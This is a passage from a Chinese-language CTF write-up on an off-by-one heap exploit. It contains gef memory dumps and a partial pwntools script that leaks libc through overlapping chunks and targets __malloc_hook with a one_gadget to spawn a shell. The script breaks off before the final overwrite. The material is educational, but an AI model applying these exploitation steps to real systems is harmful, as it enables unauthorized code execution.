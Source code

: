 ```c
0x7f07be783b2d <main_arena+13>:	0x0000000000000000	0x0000000000000000
gef➤  x/16gx 0x00007f07be783afd+0x10+3
0x7f07be783b10 <__malloc_hook>:	0x00007f07be4af2a4	0x000000000000000a
0x7f07be783b20 <main_arena>:	0x0000000000000000	0x0000000000000000
```
我们在 `delete 2`,`delete 5` 。因为它们指向同一个 `chunk`，所以会触发 `malloc_printerr`，里面会调用 `malloc_hook`，执行 `one_gadget`，就成功 `getshell` 了！
最终payload:

```python
from pwn import *

def add(size,note):
	p.sendlineafter(">> ","1")
	p.sendlineafter("length: ",str(size))
	p.sendafter("note:",note)

def edit(index,note):
	p.sendlineafter(">> ","2")
	p.sendlineafter("index: ",str(index))
	p.sendafter("note:",note)

def delete(index):
	p.sendlineafter(">> ","3")
	p.sendlineafter("index: ",str(index))

def show(index):
	p.sendlineafter(">> ","4")
	p.sendlineafter("index: ",str(index))

libc=ELF('/lib/x86_64-linux-gnu/libc.so.6')
p=process('./offbyone')

add(0x28,'a'*0x28)#0
add(0xf8,'a'*0xf8)#1
add(0x68,'a'*0x68)#2
add(0x60,'a'*0x60)#3
add(0x60,'a'*0x60)#4

delete(1)
edit(0,'a'*0x28+'\x71')
edit(2,'a'*0x60+p64(0x170)+'\x70')

add(0xf8,'a'*0xf8)

show(2)
main_arena=u64(p.recvline(keepends=False).ljust(8,'\0'))-0x58
print hex(main_arena)

libc_base=main_arena-libc.symbols['__malloc_hook']-0x10
print hex(libc_base)

system=libc_base+libc.symbols['system']
print "system",hex(system)


malloc_hook=libc_base+libc.symbols['__malloc_hook']


one_gadget=libc_base+0xf02a4

add(0x60,'a'*0x60)#5 == 2

delete(3)
```